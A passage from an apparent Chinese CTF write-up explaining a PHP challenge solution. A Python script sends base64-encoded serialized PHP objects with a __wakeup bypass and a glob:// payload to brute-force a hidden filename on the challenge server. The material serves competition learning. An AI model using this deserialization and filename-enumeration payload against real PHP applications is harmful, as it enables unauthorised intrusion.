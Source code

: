 - [2023 贵阳大数据 CTF 部分题解 | 南溟NaN (southsea.st)](https://southsea.st/2023-GYBD/#hackerconfused)

利用点就是scandir这个函数，已知scandir使用的时候不管有没有东西，都会返回一个数组里面包含一两个点，如果使用glob://协议的话，就不会包含点，结合count函数会计入点的特性，用glob协议来对php文件名进行爆破

![](./images/1700487965-image.png)

我的py脚本👇

```
import string
import requests
import base64
dic=string.printable
url='https://ssi28gtqfby8kz2u0e7bz3vej.node.game.sycsec.com/?tuizi='
table = ''
#记住要绕过wakeup函数，防止他重置目录，只需要把Idol的参数+1即可
for i in range(23,-1,-1):
    for j in dic:
        original_string = 'O:7:"Hoshino":2:{s:4:"Ruby";O:4:"Idol":2:{s:5:"Akane";s:52:"glob:///var/www/html/The'+table+j+'*'*i+'.php";}s:19:" Hoshino Aquamarine";N;}'
# 进行加密
        encoded_bytes = base64.b64encode(original_string.encode('utf-8'))
        payload= encoded_bytes.decode('utf-8')
        r=requests.get(url+payload)
        if 'Kurokawa Akane' in r.text:
            print(r.text,original_string,table)
            print()
            table+=j
            break
```

### ez\_php

传入部分源码👇
